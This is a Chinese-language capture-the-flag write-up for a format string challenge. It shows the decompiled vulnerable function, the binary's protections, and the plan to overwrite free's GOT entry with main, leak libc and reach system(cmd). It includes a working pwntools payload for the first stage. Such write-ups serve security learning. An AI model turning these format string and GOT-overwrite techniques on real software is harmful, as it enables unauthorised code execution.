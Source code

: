 #### 格式字符串漏洞

其中`fsb`函数中存在格式化字符串漏洞：

```c
char *fsb(){
  char *v0; // ST08_8
  char s; // [rsp+10h] [rbp-40h]
  unsigned __int64 v3; // [rsp+48h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  sleep(0);
  puts("please input name:");
  read_n((__int64)&s, 0x32uLL);
  v0 = strdup(&s);
  printf("Hello ", 50LL, sleep);
  printf(&s);
  return v0;
}
```

> 可以输入长度小于等于50字节的格式化字符串

#### 程序保护

查看程序保护机制，发现是`Partial RELRO`，因此可以改写GOT表

```c
checksec PWN_babyFmtstr 
[*] '/home/taqini/Downloads/36D/babyfmt/PWN_babyFmtstr'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### 解题思路

利用格式化字符串漏洞，将程序末尾的`free`函数的GOT表改写为`main`，让程序重复执行，同时泄漏libc

再次利用格式化字符串漏洞，改某函数GOT表，最终执行`system(cmd)`，拿到flag。

> 这题其实不难，GOT表可改写，再有一个printf就基本上能getshell了。但是比赛的时候我没注意到平台服务器是香港的，用`%Nc%hn`的时候会输出太多空格，导致有时没法正确得到程序输出的数据，所以我选择攻击点的时候就比较保守，格式化字符串中用的也是`%hhn`，一字节一字节改的，导致这题最终的解法有点绕远。。

#### 重复执行+泄漏libc

程序首次执行到`free`时，GOT表中的值(0x4009d6)是`plt+6`，在代码段：

```c
[0x602040] free@GLIBC_2.2.5 -> 0x4009d6 (free@plt+6) ◂— push   5
```

因此，修改`free`的GOT表后两字节，即可将其改为`main`(0x400E93)

```python
fmt0 = '%14c%12$hhn%133c%13$hhn%25$pAAAA'
fmt0+= p64(elf.got['free']+1)+p64(elf.got['free'])
sla('please input name:\n',fmt0)
```
